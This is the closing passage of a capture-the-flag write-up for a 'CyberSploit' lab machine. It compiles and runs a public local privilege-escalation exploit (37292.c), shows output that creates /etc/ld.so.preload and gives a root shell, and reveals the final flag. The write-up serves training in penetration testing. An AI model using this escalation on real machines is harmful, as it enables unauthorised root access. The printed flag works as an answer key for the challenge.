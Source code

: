 ### Compiling the Exploit

To compile the exploit we will simply run `gcc 37292.c` in the ssh session.

### Running the Exploit

To run the exploit we need to input `./a.out` and then press <kbd>ENTER</kbd>. Then we can run the `whoami` command to see if the exploit worked and granted us root access to the target machine.

```sh
itsskv@cybersploit-CTF:~$ ./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
```

### Getting the Final Flag

By navigating to the **/root** directory and running the `ls` command, we see the final flag listed as **finalflag.txt**.

Running `cat finalflag.txt` allows us to view the contents of the file and reach the end of this CTF challenge.

```sh
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```
